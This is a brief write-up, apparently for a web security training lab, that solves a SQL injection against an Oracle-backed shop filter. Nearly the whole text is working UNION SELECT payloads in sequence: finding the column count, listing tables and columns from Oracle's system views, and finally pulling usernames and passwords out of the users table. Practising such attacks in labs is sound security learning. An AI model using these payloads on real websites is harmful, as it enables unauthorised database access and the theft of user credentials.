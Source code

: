 # Listing the database contents on Oracle

`/filter?category=Pets'+UNION+SELECT+NULL+FROM+dual--`: Internal Server Error

`/filter?category=Pets'+UNION+SELECT+NULL,+NULL+FROM+dual--`: Ok (2 columns)

Get tables list:

`/filter?category=Pets'+UNION+SELECT+table_name,+owner+FROM+all_tables--`

Users table name is `USERS_TMEMJL` (suffix is random).

Get users table columns list:

`/filter?category=Pets'+UNION+SELECT+column_name,+data_type+FROM+all_tab_columns+WHERE+table_name='USERS_TMEMJL'--`

Users table has two columns: `USERNAME_TPVCRN` and `PASSWORD_XMYDGK` (suffix is random).

Get users with passwords:

`/filter?category=Pets'+UNION+SELECT+USERNAME_TPVCRN,+PASSWORD_XMYDGK+FROM+USERS_TMEMJL--`

Solved.

